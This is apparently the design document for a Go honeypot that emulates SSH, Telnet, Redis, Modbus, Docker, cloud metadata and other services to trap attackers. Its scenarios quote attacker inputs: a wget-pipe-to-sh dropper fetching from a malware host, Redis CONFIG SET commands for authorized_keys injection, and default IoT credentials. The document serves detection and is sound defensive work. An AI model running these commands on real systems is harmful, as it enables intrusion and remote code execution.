

# Shinkiro High-Interaction Protocol Decoys & Emulation Matrix

**Product:** Shinkiro (蜃気楼)  
**Architecture:** Ephemeral In-Memory Cyber Deception Mesh  
**Runtime:** Pure Go 1.24+ (Single Binary, Zero Host Mutation)

---

## 1. Architectural Philosophy & Zero-Footprint Guarantees

In contrast to legacy honeypot architectures (e.g., Cowrie, Dionaea, or heavy virtual machines running full operating systems), Shinkiro deploys an ultra-lightweight, memory-jailed deception mesh. Each protocol emulator executes inside an isolated goroutine runtime governed by strict connection deadlines (30 seconds default), memory quotas, and non-blocking I/O multiplexing.

### Fundamental Security Postulates:
1. **Zero Host Mutation:** Decoy listeners execute strictly in memory. Attacker commands, payloads, and scripts are parsed by synthetic state machines. Under no circumstance does Shinkiro invoke host OS processes (`os/exec`), fork sub-shells, or write attacker-controlled files to host paths.
2. **Fail-Closed Socket Contract:** Any malformed frame, unhandled exception, parser anomaly, or potential buffer overflow immediately drops the client TCP/UDP connection without transmitting descriptive error traces or stack information.
3. **Attacker Profiling & Deception Depth:** Trapping modern automated botnets (Mirai, Gafgyt, XMRig droppers) is trivial. Shinkiro is specifically engineered to mislead sophisticated human adversaries by providing coherent virtual filesystems, realistic human latency jitter, synthetic honeytokens, and deep deceptive application interfaces.

---

## 2. Decoy Protocol Emulation Matrix

| Decoy Service | Layer 4 Protocol | Default Port | Emulated Target Specification | MITRE ATT&CK Mapping | Default Threat Score |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **SSH** | TCP | `2222` / `22` | OpenSSH 9.2p1 Debian-2+deb12u2 with in-memory bash VirtualFS & human latency jitter | `T1078`, `T1059.004`, `T1021.004` | 75–100 |
| **Telnet** | TCP | `2323` / `23` | Embedded Linux router BusyBox v1.31.1, IAC negotiation, Mirai botnet harvester | `T1078`, `T1059.004` | 70–100 |
| **Modbus / TCP** | TCP | `502` | Schneider Electric / Siemens PLC controller emulator, MBAP frame parser | `T0855`, `T0858`, `T0812` | 75–95 |
| **Redis** | TCP | `6379` | Redis 7.2.4 cluster RESP parser, unauthenticated INFO, CONFIG dump & Lua EVAL trap | `T1059`, `T1190` | 65–95 |
| **Docker Engine** | HTTP | `2375` | Docker Daemon v24.0.7 API (`/_ping`, `/version`, `/containers/create`), miner trap | `T1609`, `T1496` | 50–100 |
| **Kubernetes API** | HTTPS | `6443` | Kubernetes v1.29 control-plane API (`/version`, `/api/v1/namespaces`, `/api/v1/secrets`) | `T1613`, `T1078.001` | 60–95 |
| **PostgreSQL** | TCP | `5432` | PostgreSQL 3.0 wire protocol handshake, StartupMessage, SSLRequest & Cleartext auth | `T1078.001`, `T1110` | 70–85 |
| **MongoDB** | TCP | `27017` | BSON wire protocol `OP_MSG` emulator, unauthenticated `isMaster` probe collector | `T1078`, `T1190` | 75 |
| **Elasticsearch** | HTTP | `9200` | Elasticsearch v8.11 REST API (`/`, `/_cat/indices`, `/_cluster/health`), cluster recon | `T1190`, `T1083` | 65–85 |
| **HTTP Deep Traps**| HTTP | `8080` / `80` | WordPress (`/wp-login.php`), Jenkins auth form, Grafana API metrics, canary files (`/.env`, `/.git`) | `T1190`, `T1552.001` | 75–90 |
| **AWS IMDS** | HTTP | `8169` / `169.254.169.254` | EC2 Instance Metadata Service v1 & v2, SSRF trap serving synthetic HMAC honeytokens | `T1552.005`, `T1078.004` | 95 |
| **MQTT** | TCP | `1883` | Eclipse Mosquitto v2.0.18 broker, CONNECT client authentication, unauthorized PUBLISH/SUBSCRIBE | `T1078`, `T1190` | 70–95 |
| **SMB / CIFS** | TCP | `4445` / `445` | NetBIOS Session & SMBv2 negotiation parser, EternalBlue (MS17-010) recon trap | `T1021.002`, `T1210` | 95 |
| **SMTP / ESMTP** | TCP | `2525` / `25` | Postfix ESMTP banner (`HELO`, `EHLO`, `MAIL FROM`, `RCPT TO`, `DATA`), spam collector | `T1566`, `T1071.003` | 80 |
| **DNS Server** | UDP | `1053` / `53` | RFC 1035 UDP parser, subdomain enumeration, DNS tunneling & C2 covert channel detector | `T1071.004`, `T1568` | 50–90 |

---

## 3. Detailed Protocol Emulation Specifications

### 3.1. SSH Honeypot (`internal/decoys/ssh`)
- **Transport & Banner:** Responds with authentic OpenSSH banner: `SSH-2.0-OpenSSH_9.2p1 Debian-2+deb12u2`. Supports standard RSA host keys generated dynamically in memory.
- **Authentication Capture:** Intercepts password authentication and public key probes. All credentials (`username`, `password`, or public key SHA-256 fingerprint) are logged as high-severity attacker events.
- **Interactive VirtualFS:** An in-memory hierarchical Unix filesystem containing:
  - System files: `/etc/passwd`, `/etc/shadow`, `/etc/os-release`, `/etc/hostname`, `/etc/resolv.conf`, `/etc/hosts`, `/var/log/auth.log`, `/proc/version`, `/proc/cpuinfo`.
  - Application configs: `/etc/nginx/nginx.conf`.
  - Canary Honeytokens: `/root/.env` (fake AWS IAM keys, Postgres connection string, Vault root token), `/root/.bash_history` (pre-populated plausible administrative command history).
- **Emulated Commands:** `id`, `whoami`, `hostname`, `uname -a`, `pwd`, `cd` (stateful directory tracking), `uptime`, `ps`, `cat`, `head`, `tail`, `grep`, `touch`, `mkdir`, `df`, `free`, `sudo`, `echo`, `env`, `ls -la`, `history`, `curl`/`wget` (simulated timeouts to bait exfiltration scripts).
- **Anti-Fingerprint Jitter:** Employs gaussian latency delays (15ms to 45ms) before rendering output to prevent automated network fingerprinting tools from detecting immediate zero-latency execution.

### 3.2. Industrial Control Systems: Modbus/TCP (`internal/decoys/modbus`)
- **Protocol Framing:** Decodes standard 7-byte Modbus Application Protocol (MBAP) header:
  - `Transaction ID` (2 bytes)
  - `Protocol ID` (2 bytes, validated `0x0000`)
  - `Length` (2 bytes)
  - `Unit ID` (1 byte)
- **Supported Function Codes:**
  - `0x01` (Read Coils) & `0x02` (Read Discrete Inputs)
  - `0x03` (Read Holding Registers) & `0x04` (Read Input Registers)
  - `0x05` (Write Single Coil) & `0x06` (Write Single Register)
  - `0x08` (Diagnostics)
  - `0x0F` (Write Multiple Coils) & `0x10` (Write Multiple Registers)
- **OT Deception Telemetry:** Returns realistic synthetic power telemetry (2 registers: 220V nominal voltage `0x00DC` and 50Hz grid frequency `0x0032`). Any attempt to write coils or registers triggers immediate `CRITICAL` severity and maximum threat score (`95/100`), mapping directly to MITRE for ICS `T0855` (*Unauthorized Command Message*).

### 3.3. Redis Deception Engine (`internal/decoys/redis`)
- **RESP Protocol Engine:** Implements the Redis Serialization Protocol for inline commands and arrays.
- **Exploitation Traps:**
  - `INFO`: Responds with synthetic Redis 7.2.4 Debian Linux node configuration, uptime, and cluster memory status.
  - `CONFIG GET` / `CONFIG SET`: Detects attempts to write SSH authorized keys to `/root/.ssh/authorized_keys` or crontab persistence. Responds with permission denied while extracting attacker payloads.
  - `EVAL` / `EVALSHA`: Detects remote Lua sandbox escape scripts, generates a cryptographic SHA-256 hash of the payload, and records the malicious script in threat intelligence.

### 3.4. Docker & Kubernetes Cloud APIs (`internal/decoys/docker`, `internal/decoys/k8s`)
- **Docker REST API:**
  - Endpoints: `GET /_ping`, `GET /version`, `GET /v1.24/version`, `GET /containers/json`, `POST /containers/create`.
  - Behavior: Returns authentic Docker Engine v24.0.7 JSON metadata. Intercepts `POST /containers/create` payload JSON to capture Docker image names, command arguments (often cryptominers like `xmrig`, `monerocean`, or botnet droppers), and environment variables.
- **Kubernetes Control Plane API:**
  - Endpoints: `/version`, `/api`, `/apis`, `/api/v1/namespaces`, `/api/v1/secrets`.
  - Behavior: Mimics Kubernetes v1.29 control plane. Intercepts unauthorized cluster reconnaissance, RBAC privilege enumeration, and ServiceAccount token theft.

### 3.5. Web & Deep Admin Canaries (`internal/decoys/http`)
- **Scanner Bait:** Traps standard scanners searching for configuration leaks: `/.env`, `/.git/config`, `/aws/credentials`.
- **Deep Decoy Admin Interfaces:**
  - **WordPress Login (`/wp-login.php`, `/wp-admin`):** Serves authentic HTML login markup to capture brute-force credential pairs.
  - **Jenkins Automation Server (`/jenkins`, `/j_spring_security_check`):** Serves authentic Jenkins authentication forms to entrap CI/CD pipeline hijackers.
  - **Grafana Metrics (`/grafana`, `/api/v1/query`):** Emulates Grafana v10.2.3 API responses.

### 3.6. AWS EC2 Instance Metadata Service (`internal/decoys/aws`)
- **SSRF Trap:** Binds locally or on alias `169.254.169.254`.
- **IMDSv1 & IMDSv2 Support:** Implements token generation via `PUT /latest/api/token` and credential retrieval at `/latest/meta-data/iam/security-credentials/`.
- **Synthetic Canary Injection:** Injects HMAC-signed synthetic AWS credentials (`AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, `Token`). If an attacker uses these credentials against AWS or third-party APIs, external canary alerts fire immediately.

### 3.7. Relational & NoSQL Databases (`internal/decoys/postgres`, `internal/decoys/mongo`)
- **PostgreSQL 3.0 Wire Protocol:** Handles SSLRequest handshake (`80877103`), negotiates unencrypted fallback, captures startup parameters (`user`, `database`), issues cleartext authentication challenge (`R`), extracts attacker password, and returns authentic `SFATAL C28P01` authentication failure errors.
- **MongoDB BSON OP_MSG:** Intercepts unauthenticated wire queries including `isMaster` and `buildInfo` reconnaissance.

### 3.8. Network & IoT Services (`internal/decoys/smb`, `internal/decoys/mqtt`, `internal/decoys/telnet`)
- **SMBv2:** Captures NetBIOS Session Requests and SMB Negotiate Protocol requests, trapping EternalBlue (MS17-010) network scanners.
- **MQTT:** Decodes MQTT v3.1.1 protocol headers, harvesting unauthorized client identifiers, usernames, passwords, and malicious telemetry topics.
- **Telnet:** Responds with authentic BusyBox embedded Linux prompts, trapping Mirai and Gafgyt automated credential sprayers.

---

## 4. Fuzzing & Protocol Parser Verification

All protocol decoders are subjected to continuous native Go fuzz testing (`testing.F`) to ensure zero-crash, panic-free stability under arbitrary attacker inputs:

```bash
# Execute full security fuzzing test suite
make fuzz
```

The suite validates:
1. `FuzzRedisDecoy`: Mutates RESP arrays, raw binary chunks, and malformed Lua payload strings.
2. `FuzzPostgresDecoy`: Mutates startup lengths, SSL request headers, and authentication blocks.
3. `FuzzDockerDecoy`: Mutates malformed HTTP headers, oversized verbs, and malformed JSON bodies.
4. `FuzzVirtualFSExecute`: Mutates arbitrary command line strings, shell metacharacters, and path traversals.
5. `FuzzModbusDecoy`: Mutates MBAP length fields, unit identifiers, and unauthorized function codes.

---

## 5. Security & Isolation Model



- **Syscall Filtering:** A seccomp profile file is shipped at `deploy/security/seccomp.json` for operators to apply (not auto-enforced by the binary).
- **Container Hardening:** Helm chart templates set `readOnlyRootFilesystem`, `runAsNonRoot`, and `capabilities.drop: [ALL]` when you deploy the chart; image/registry wiring still has limitations (see README Helm section).
- **Memory Quotas:** Prefer cgroup limits in your orchestrator (`values.yaml` suggests example requests/limits).

---

## 6. Adversary Interaction Scenarios & Deception Depth

To illustrate how Shinkiro deceives automated exploits and interactive threat actors, the following interaction workflows showcase real protocol responses:

### 6.1. Scenario A: Automated Mirai Botnet Telnet Sweep

1. **Reconnaissance:** Botnet sweeps port `2323` (or redirected `23`) with TCP SYN probes.
2. **Handshake & Negotiation:** Shinkiro accepts socket, sends IAC (Interpret As Command) telnet negotiation sequence (`0xFF, 0xFB, 0x01` / `0xFF, 0xFB, 0x03` - Will Echo, Will Suppress Go Ahead), presenting a authentic BusyBox banner:
   ```text
   BusyBox v1.31.1 (2020-03-15 12:45:10 UTC) built-in shell (ash)
   Enter 'help' for a list of built-in commands.

   login:
   ```
3. **Credential Harvesting:** Captures default IoT credentials (`admin:admin`, `root:vizxv`, `root:xc3511`).
4. **Shell Entrapment:** Spawns virtual `ash` prompt. Attacker executes dropper stagers (`/bin/busybox wget http://malware.ru/m -O - | sh`).
5. **Detection & Containment:** Shinkiro parses the URL, hashes the payload request, assigns threat score `90/100`, records MITRE `T1059.004` & `T1105`, and injects human jitter before simulating an exit or network timeout.

### 6.2. Scenario B: Redis In-Memory Exploitation & Authorized Keys Injection

1. **Scanner Sweep:** Exploit kit sends `INFO` command to port `6379`.
2. **Emulated Metadata:** Shinkiro responds with authentic Redis 7.2.4 telemetry:
   ```text
   # Server
   redis_version:7.2.4
   os:Linux 6.1.0-18-amd64 x86_64
   process_id:1042
   run_id:e95a32b9c7fa684201824ef78b31c9e843e91142
   tcp_port:6379
   uptime_in_seconds:384210
   ```
3. **Exploitation Attempt:** Attacker issues `CONFIG SET dir /root/.ssh/` and `CONFIG SET dbfilename authorized_keys`.
4. **Deception Response:** Decoy captures the injected SSH key, calculates SHA-256 hash, scores the interaction as `95/100` (`CRITICAL`), maps to `T1098` (*Account Manipulation*), and responds with `(error) ERR Unsupported CONFIG parameter in read-only cluster mode`.

### 6.3. Scenario C: Modbus/TCP Unauthorized Coil Overwrite (OT/ICS)

1. **Industrial Scanner:** Adversary targets port `502` transmitting an MBAP function `0x05` (`Write Single Coil` at address `0x0001` with value `0xFF00` to trip an electrical safety breaker).
2. **Parser Analysis:** Shinkiro decodes `TransactionID: 0x0001`, `ProtocolID: 0x0000`, `Length: 6`, `UnitID: 1`, `Function: 0x05`.
3. **Immediate SOC Alert:** Event is tagged `CRITICAL` with score `95/100`, mapping to MITRE for ICS `T0855` (*Unauthorized Command Message*).
4. **SOAR / Export Mitigation:** Matching playbook rules may run `block_ip` / `alert` hooks. Operators can export nftables/iptables/sample eBPF rule **text** (`shinkiro export`, `shinkiro kernel`) and apply it themselves. Shinkiro does **not** attach a live XDP program or update BPF maps in-process.

---

## 7. Decoy Configuration & Operational Tuning

Runtime configuration uses the top-level key **`services:`** (see root `config.yaml` and `internal/config`). The earlier `decoys:` example schema was incorrect.

```yaml
# Matches config.yaml — runtime key is services:
node_name: "shinkiro-sensor-primary"
idle_timeout: 30s
max_connections: 1000
audit_log_path: "data/events.jsonl"
metrics_port: 9100

services:
  ssh:
    enabled: true
    port: 2222
  redis:
    enabled: true
    port: 6379
  docker:
    enabled: true
    port: 2375
  http:
    enabled: true
    port: 8080
  postgres:
    enabled: true
    port: 5432
  k8s:
    enabled: true
    port: 6443
  aws-imds:
    enabled: true
    port: 8169
  mongo:
    enabled: true
    port: 27017
  elastic:
    enabled: true
    port: 9200
  smtp:
    enabled: true
    port: 2525
  dns:
    enabled: true
    port: 1053
  smb:
    enabled: true
    port: 4445
  telnet:
    enabled: true
    port: 2323
  mqtt:
    enabled: true
    port: 1883
  modbus:
    enabled: true
    port: 502
```

Per-decoy banner/jitter fields shown in older drafts are not part of the minimal `ServiceConfig` shape loaded today — extend `internal/config` before documenting them as supported knobs.
